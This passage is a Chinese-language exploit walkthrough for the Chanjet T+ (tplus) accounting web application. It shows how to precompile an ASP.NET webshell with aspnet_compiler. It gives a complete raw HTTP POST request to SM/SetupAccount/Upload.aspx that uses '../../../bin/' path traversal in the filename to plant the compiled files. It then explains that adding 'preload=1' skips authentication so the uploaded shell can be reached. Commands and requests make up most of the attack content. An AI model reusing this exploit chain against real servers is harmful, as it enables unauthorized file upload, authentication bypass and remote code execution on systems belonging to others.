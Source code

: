 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140136.png)

  

然后CMD 执行

    
    
    C:\WINDOWS\Microsoft.NET\Framework\v2.0.50727\aspnet_compiler.exe -v /  -p M:\iiss D:/iss -fixednames

-p 代表的是你木马的目录。D:\iss 表示生成在那个目录中。

执行完毕后，查看D:\iss 目录

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140137.png)

把这两个文件上传到bin目录中

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140138.png)

    
    
    POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1  
    Host: 192.168.1.77:8080  
    Upgrade-Insecure-Requests: 1  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Accept-Encoding: gzip, deflate  
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8  
    Cookie: ASP.NET_SessionId=gvigofzulthd2v1i2q5zndtf; Hm_lvt_fd4ca40261bc424e2d120b806d985a14=1662302093; Hm_lpvt_fd4ca40261bc424e2d120b806d985a14=1662302093  
    Connection: close  
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywwk2ReqGTj7lNYlt  
    Content-Length: 192  
      
    ------WebKitFormBoundarywwk2ReqGTj7lNYlt  
    Content-Disposition: form-data; name="File1";filename="../../../bin/xx.bin"  
    Content-Type: image/jpeg  
      
    1  
    ------WebKitFormBoundarywwk2ReqGTj7lNYlt--

  

上传完成之后访问如下：

http://192.168.1.77:8080/tplus/111.aspx?preload=1

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140140.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140141.png)

备注一定要加preload=1 这个。不然他还是走了验证的通道

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140118.png)
